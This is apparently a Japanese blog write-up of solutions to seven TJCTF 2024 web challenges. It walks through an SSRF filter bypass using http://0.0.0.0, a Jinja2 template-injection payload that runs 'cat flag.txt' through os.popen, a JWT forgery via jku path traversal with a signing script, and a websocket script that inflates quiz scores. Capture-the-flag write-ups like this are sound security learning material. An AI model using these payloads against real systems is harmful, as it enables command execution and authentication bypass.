






<route lang="yaml">
meta:
    title: TJCTF 2024
    postedAt: 2024-05-22
</route>

<div v-pre>

# TJCTF 2024

---

- [[web] frog](#[web]-frog)
- [[web] reader](#[web]-reader)
- [[web] fetcher](#[web]-fetcher)
- [[web] templater](#[web]-templater)
- [[web] music-checkout](#[web]-music-checkout)
- [[web] topplecontainer](#[web]-topplecontainer)
- [[web] kaboot](#[web]-kaboot)

---

## [web] frog

`robots.txt`を見ると`Disallow: /secret-frogger-78570618/`の記載がある．

`/secret-frogger-78570618`にいくと

```html
<a href="flag-ed8f2331.txt" style="text-decoration: none;">🐸</a>
```

とあるので，`/secret-frogger-78570618/flag-ed8f2331.txt`にいくとflagがあった．

---

## [web] reader

`site`に入力したurlの内容をとってきて表示してくれるっぽい．

```py
@app.route("/")
def index():
    global log, log_count
    site_to_visit = request.args.get("site") or ""
    url = urlparse(site_to_visit)
    if not site_to_visit:
        return render_template("index.html")
    else:
        parser = etree.HTMLParser()
        try:
            response = get(site_to_visit).text
            tree = etree.fromstring(response, parser).getroottree()
            content = get_text_repr(tree, url.scheme + "://" + url.netloc)
        except Exception as e:
            print(e)
            log_count += 1
            if log_count >= MAX_LOGS:
                log.pop(0)
                log_count = MAX_LOGS
            log.append(str(e))
            tree = etree.fromstring(
                "<body>failed to load page</body>", parser
            ).getroottree()
            content = get_text_repr(tree, "")

        return render_template("site_view.html", content=content)
```

プログラムを読むと，`/monitor`にてflagの表示をしてくれるが，リクエスト元のアドレスが`127.0.0.1`か`localhost`でないとダメらしい．

```py
@app.route("/monitor")
def monitor():
    if request.remote_addr in ("localhost", "127.0.0.1"):
        return render_template(
            "admin.html", message=flag, errors="".join(log) or "No recent errors"
        )
    else:
        return render_template("admin.html", message="Unauthorized access", errors="")

```

`/?site=http://127.0.0.1:5000/monitor`として`/monitor`の内容を取得すればいい

---

## [web] fetcher

`/fetch`に入力したurlの内容をとってきてくれる．
`/flag`に対するリクエスト元のアドレスが`127.0.0.1`であればflagを入手できるが，`/fetch`ではurlが`localhost`や`127.0.0.1`の文字列を含んでいたら強制終了するようになっていた．

```js
app.post('/fetch', async (req, res) => {
  const url = req.body.url

  if (!/^https?:\/\//.test(url)) return res.send('invalid url')

  try {
    const checkURL = new URL(url)

    if (
      checkURL.host.includes('localhost') ||
      checkURL.host.includes('127.0.0.1')
    )
      return res.send('invalid url')
  } catch (e) {
    return res.send('invalid url')
  }

  const r = await fetch(url, { redirect: 'manual' })

  const fetched = await r.text()

  res.send(fetched)
})
```

```js
app.get('/flag', (req, res) => {
  if (
    req.ip !== '::ffff:127.0.0.1' &&
    req.ip !== '::1' &&
    req.ip !== '127.0.0.1'
  )
    return res.send('bad ip')

  res.send(`hey myself! here's your flag: ${flag}`)
})
```

[url-format-bypass](https://book.hacktricks.xyz/v/jp/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass) を参考に`http://0.0.0.0`をfetchさせることで通った．

---

## [web] templater


入力された文章の中から`{{key}}`という文字列を探しだし，keyに対応するvalueに書き換えてくれるプログラムになっている．
`key`が存在しない場合は`key not found`のように出力をしてくれて，`key:flag`は`value:tjctf{...}` を持つ．
レスポンスの文章の中に答えのflagが入っていたらflagを隠す仕様になっている．

flagのフォーマットが`tjctf{...}`であることから，`{{{{flag}}}`のように入力することで，

```txt
{{{{flag}}}→{{tjctf{...}}
```

となる．`tjctf{...`に対応する文字列を出力する必要があるが，`tjctf{...`なるkeyは用意していない．error文に最後の`}`を抜いたflagが出力される．


---

## [web] music-checkout



色々入力ができるっぽい



コードを読むと，textではSSTI対策がされているがusernameではされていないことがわかる．

```py
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{{" in text or "}}" in text:
            return "Nice try!", 406
        text = [line.split(",") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```

`{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}`をusernameに入力すればflagが出力される．



---

## [web] topplecontainer

与えられたサイトに行くと，ファイルのアップロードページが与えられる．
認証はjwtで行われている．



コードを読むと，`/flag`にアクセスした際にjwtのidがadminであるときにflagを返すようになっている．
jwtの認証では，ヘッダーのjkuに書かれたjsonファイルから公開鍵を取得し，その鍵でjwtの署名を確認するというようになっている．

```py
def login_required():
    def _login_required(f):
        @wraps(f)
        def __login_required(*args, **kwargs):
            token = request.cookies.get("token")
            if not token:
                return redirect("/register")
            user = verify_token(token)
            if user is None:
                return redirect("/register")
            return f(*args, **kwargs, user=user)

        return __login_required

    return _login_required

def generate_token(user_id):
    return jwt.encode(
        {"id": user_id},
        private_key,
        algorithm="ES256",
        headers={"kid": KID, "jku": "jwks.json"},
    )

def verify_token(token):
    try:
        header = jwt.get_unverified_header(token)
        print("header", header)
        jku = header["jku"]
        print("jku", jku)
        with open(f"static/{jku}", "r") as f:
            keys = json.load(f)["keys"]
            print("keys", keys)
        kid = header["kid"]
        print("kid", kid)
        for key in keys:
            if key["kid"] == kid:
                public_key = jwt.algorithms.ECAlgorithm.from_jwk(key)
                payload = jwt.decode(token.encode(), public_key, algorithms=["ES256"])
                return payload
    except Exception:
        pass
    return None

@app.route("/flag")
@login_required()
def get_flag(user):
    if user["id"] == "admin":
        return flag
    else:
        return "admins only! shoo!"
```



以下のような手順で解けそうである

- ファイルのアップロードページにて自分で作成した公開鍵をアップロード
- idをadmin，jkuをアップロード後の公開鍵のパスとしたjwtを作成
- `/flag`にアクセス

まず公開鍵をアップロードして

```json
{
  "keys": [
    {
      "kty": "EC",
      "crv": "P-256",
      "x": "0QCXT0NvlTA9Rg6BE9YVnRGQCP9iqnalG-52qL1r_88",
      "y": "5H3jm2p6Cm5lnY7aMa6bVt1YJ7rveUm1ykTfUUAecqI",
      "kid": "1"
    }
  ]
}
```

以下のようにjwtを作成して終わり

```py
import jwt

with open('./es256.key.pkcs8') as f_private:
    private_key = f_private.read()

header = {
    'alg': 'ES256',
    # json 内の kid
    'kid': '1',
    # アップロード後のパス
    "jku": "../uploads/4f43ef06-30ab-4146-8327-9db6a17d2d20/64dfb478-7292-47e6-b27f-307397b82017",
    'typ': 'JWT'
}
payload = {
    "id": "admin"
}

encoded_jwt = jwt.encode(payload, private_key,
                         algorithm='ES256', headers=header)
print("encoded_jwt:", encoded_jwt)
```

---

# [web] kaboot

クイズにたくさん答える問題．コードは以下．

```py
@sock.route('/room/<room_id>')
def room_sock(sock, room_id):
    sock.send(b64encode(kahoot['name'].encode()))
    scores = get_room_scores(room_id)
    for i, q in enumerate(kahoot['questions']):
        sock.send(b64encode(json.dumps({
            'send_time': time(),
            'scores': scores,
            **q,
        }).encode()))

        data = sock.receive()
        data = json.loads(b64decode(data).decode())

        send_time = data['send_time']
        recv_time = time()

        if (scores := get_room_scores(room_id)) is not None and send_time >= time():
            sock.send(b64encode(json.dumps({
                'scores': scores,
                'end': True,
                'message': '???'
            }).encode()))
            return

        if i == 0:
            edit_score(scores, room_id, data['id'], 0)

        if data['answer'] == q['answer']:
            edit_score(scores,
                       room_id,
                       data['id'],
                       get_score(scores, room_id, data['id']) + 1000 + max((send_time - recv_time) * 50, -500))

    sock.send(b64encode(json.dumps({
        'scores': scores,
        'end': True,
        'message': f'omg congrats, swiftie!!! {flag}' if get_score(scores, room_id, data['id']) >= 1000 * len(kahoot['questions']) else 'sucks to suck brooooooooo'
    }).encode()))
```

以下の部分を読むと，スコアを問題数 \* 1000点以上稼げばいいことがわかる．

```py
sock.send(b64encode(json.dumps({
        'scores': scores,
        'end': True,
        'message': f'omg congrats, swiftie!!! {flag}' if get_score(scores, room_id, data['id']) >= 1000 * len(kahoot['questions']) else 'sucks to suck brooooooooo'
    }).encode()))
```

クイズの問題についてはwebsocketでやりとりをしている．
送信するwsの`send_time`を未来の時間に改ざんしようとした場合，`if (scores := get_room_scores(room_id)) is not None and send_time >= time():`に引っかかる．

同じユーザで複数回問題を解くことで点数を無限に増やす方法を考えたが以下で対策されている．
しかし，これは1問目の際にidに書かれたユーザの点数をリセットするという仕組みになっている．
1問目だけユーザ名を偽造すれば点数がリセットされることなく無限に増やせそうである．

```py
if i == 0:
    edit_score(scores, room_id, data['id'], 0)
```

↓解答

```py
from websocket import create_connection
import requests
from bs4 import BeautifulSoup
from base64 import b64decode, b64encode
import json

with open('./kahoot.json') as f:
    kahoot = json.load(f)

HOST = 'kaboot-8415d871f0ea1f31.tjc.tf'
url = f"https://{HOST}/create"
uid = 'evip'

response = requests.post(url)
h2_element = BeautifulSoup(response.text, "html.parser").find("h2")
room_id = h2_element.text.split(' | ')[-1]
print('room_id: ', room_id)
requests.get(f'https://{HOST}/room/{room_id}')

ws_url = f'wss://{HOST}/room/{room_id}'
ws = create_connection(ws_url)
result = ws.recv()

for i, q in enumerate(kahoot['questions']):
    data = ws.recv()
    data = json.loads(b64decode(data).decode())
    res = json.dumps({
        'send_time': data['send_time'],
        'answer': data['answer'],
        'id': uid
    })
    ws.send(b64encode(res.encode()))

result = ws.recv()

ws_url = f'wss://{HOST}/room/{room_id}'
ws = create_connection(ws_url)
result = ws.recv()

for i, q in enumerate(kahoot['questions']):
    data = ws.recv()
    data = json.loads(b64decode(data).decode())
    if i == 0:
        uid = 'dummy'
    else:
        uid = 'evip'
    res = json.dumps({
        'send_time': data['send_time'],
        'answer': data['answer'],
        'id': uid
    })
    ws.send(b64encode(res.encode()))

result = ws.recv()
print("Received:", b64decode(result))
```

</div>
